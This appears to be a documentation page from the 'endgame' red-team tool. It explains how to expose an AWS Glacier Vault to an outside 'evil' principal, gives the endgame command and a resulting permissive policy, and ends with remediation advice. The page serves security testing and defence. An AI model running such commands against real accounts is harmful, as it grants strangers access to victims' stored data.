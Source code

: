 # Glacier Vault

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service glacier --name test-resource-exposure
```

* To view the contents of the Glacier Vault Access Policy, run the following:

```bash
export VICTIM_ACCOUNT_ID=111122223333

aws glacier get-vault-access-policy \
    --account-id $VICTIM_ACCOUNT_ID \
    --vault-name test-resource-exposure
```

* Observe that the output of the overly permissive Glacier Vault Access Policies resembles the example shown below.


## Example

Observe that the policy below allows the evil principal (`arn:aws:iam::999988887777:user/evil`) the `glacier:*` permissions to the Glacier Vault named `test-resource-exposure`.

```json
{
    "policy": {
        "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"glacier:*\",\"Resource\":\"arn:aws:glacier:us-east-1:111122223333:vaults/test-resource-exposure\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:user/evil\"},\"Action\":\"glacier:*\",\"Resource\":\"arn:aws:glacier:us-east-1:111122223333:vaults/test-resource-exposure\"}]}"
    }
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that Glacier Vaults are only shared with trusted accounts, and that the trusted accounts truly need access to the Vaults.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your Vaults**: Tightly control access to the following IAM actions:
  - [glacier:GetVaultAccessPolicy](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-GetVaultAccessPolicy.html): _Retrieves the access-policy subresource set on the vault_
  - [glacier:ListVaults](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-vaults-get.html): _Lists all vaults_
  - [glacier:SetVaultAccessPolicy](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-SetVaultAccessPolicy.html): _Configures an access policy for a vault and will overwrite an existing policy._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [set-vault-access-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/glacier/set-vault-access-policy.html)
* [get-vault-access-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/glacier/get-vault-access-policy.html)